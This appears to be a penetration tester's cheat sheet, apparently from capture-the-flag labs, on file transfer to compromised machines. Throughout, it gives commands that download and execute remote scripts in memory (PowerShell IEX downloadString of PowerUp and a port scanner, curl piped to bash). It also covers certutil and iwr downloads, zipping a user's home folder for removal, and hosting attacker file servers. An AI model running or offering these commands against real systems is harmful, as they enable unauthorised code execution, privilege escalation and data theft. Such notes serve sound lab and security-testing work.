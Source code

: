 ### Hosting Files
```shell
python -m SimpleHTTPServer 80
python -m pyftpdlib -p 21 --write
smbserver.py share `pwd` -smb2support
```

### Windows
```powershell 
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/PowerUp.ps1');Invoke-Allchecks"

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/Invoke-Portscan.ps1')

certutil.exe -urlcache -f http://10.10.14.8/PowerUp.ps1 
curl http://10.10.14.8/PowerUp.ps1 -O PowerUp.ps1

powershell.exe -command iwr -Uri  http://10.10.14.8/PowerUp.ps1 -OutFile C:\Temp\PowerUp.ps1 
```
Compress into zip folder before downloading
```powershell
Compress-Archive -Path C:\Users\nikk37\ -DestinationPath 1.zip
```

### Linux
```bash
wget http://10.10.14.8/linPEAS.sh 
curl http://10.10.14.8/linPEAS.sh -o linPEAS.sh
curl http://10.10.14.6/linenum.sh | bash
```

```shell
base64 linpeas.sh -w 0
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... | base64 -d > linpeas.sh
```

Validation
```shell
md5sum linpeash.sh
```